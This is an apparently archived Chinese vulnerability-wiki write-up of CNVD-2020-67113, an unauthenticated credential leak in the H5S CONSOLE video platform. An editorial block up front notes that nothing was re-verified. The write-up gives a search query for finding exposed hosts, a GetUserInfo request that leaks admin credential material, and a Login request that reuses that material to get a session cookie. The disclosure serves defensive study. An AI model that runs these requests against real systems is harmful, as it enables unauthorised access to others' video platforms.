





# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：零视H5S CONSOLE视频平台
- 本文讨论：CNVD-2020-67113 GetUserInfo泄露
- 版本、权限与配置前提：空session访问，登录接受接口返回密码材料；版本未知
- 资料类型：信息泄露至登录链；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- API文档公开本身不构成漏洞，真正问题在用户接口授权
- 密码示例为摘要状值，应标返回认证材料而非未经证明明文密码
- 账号字段响应及登录Cookie仅图片，版本栏只有产品名

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- CNVD范围、返回值格式与登录重用待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## 网络测绘

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面



API文档可以未授权访问

```
/doc/api.html
```



存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```



其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```



请求成功后访问主页面



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
